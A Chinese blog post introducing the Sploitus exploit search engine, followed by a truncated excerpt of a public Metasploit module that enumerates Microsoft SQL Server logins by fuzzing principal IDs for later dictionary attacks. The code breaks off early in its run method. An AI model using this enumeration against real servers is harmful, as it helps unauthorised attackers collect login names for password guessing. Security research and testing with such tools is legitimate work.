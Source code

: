 #  Sploitus|Exploit 在线漏洞搜索引擎   
原创 蓝胖子之家  蓝胖子之家   2024-02-12 14:38  
  
**官网：https://sploitus.com/**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/REwWx1OBrpgu0hmHyYTQZWKm5jtvNezFyMu7d79EhUQt5Ig8z3PlmSc52HiaOOzb69v5WMZnQD2SRDFuXflJCMQ/640?wx_fmt=png&from=appmsg "")  
  
**Sploitus是一个在线漏洞搜索引擎，它提供了一个平台，让安全研究人员和黑客能够查找已知的软件漏洞和安全漏洞的信息。它的目的是帮助用户发现和了解已知的漏洞，以便更好地保护自己的系统和网络。**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/REwWx1OBrpgu0hmHyYTQZWKm5jtvNezFdO54wDpjQtbOdquP3QYARv7WF4dv1o3ibeicutica4YzlwTL4PAfC8osw/640?wx_fmt=png&from=appmsg "")  
  
**在Sploitus数据库中包含了大量的漏洞信息，包括已公开披露的漏洞、CVE（通用漏洞和披露）编号、漏洞描述、影响的软件和版本、漏洞的利用方式等。用户可以通过搜索关键字、软件名称、CVE编号等方式来查找相关的漏洞信息。**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/REwWx1OBrpgu0hmHyYTQZWKm5jtvNezFKRxXLELT3K7PPx2Tm5n1AsGjYYuiaJQlgL8BLIsXx3a9icEK1Vic64WTw/640?wx_fmt=png&from=appmsg "")  
  
**下面是一个Metasploit框架中的辅助模块，**  
**用于在Microsoft SQL Server中枚举SQL登录名的漏洞利用。**  
```
## https://sploitus.com/exploit?id=MSF:AUXILIARY-ADMIN-MSSQL-MSSQL_ENUM_SQL_LOGINS-
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Auxiliary
include Msf::Exploit::Remote::MSSQL

def initialize(info = {})
super(update_info(info,
'Name' => 'Microsoft SQL Server SUSER_SNAME SQL Logins Enumeration',
'Description' => %q{
This module can be used to obtain a list of all logins from a SQL Server with any login.
Selecting all of the logins from the master..syslogins table is restricted to sysadmins.
However, logins with the PUBLIC role (everyone) can quickly enumerate all SQL Server
logins using the SUSER_SNAME function by fuzzing the principal_id parameter. This is
pretty simple, because the principal IDs assigned to logins are incremental. Once logins
have been enumerated they can be verified via sp_defaultdb error analysis. This is
important, because not all of the principal IDs resolve to SQL logins (some resolve to
roles instead). Once logins have been enumerated, they can be used in dictionary attacks.
},
'Author' => ['nullbind <scott.sutherland[at]netspi.com>'],
'License' => MSF_LICENSE,
'References' => [['URL','https://docs.microsoft.com/en-us/sql/t-sql/functions/suser-sname-transact-sql']]
))

register_options(
[
OptInt.new('FuzzNum', [true, 'Number of principal_ids to fuzz.', 300]),
])
end

def run
# Check connection and issue initial query
print_status("Attempting to connect to the database server at #{rhost}:#{rport} as #{datastore['USERNAME']}...")
if mssql_login_datastore
print_good('Connected.')
else
print_error('Login was unsuccessful. Check your credentials.')
disconnect
return
```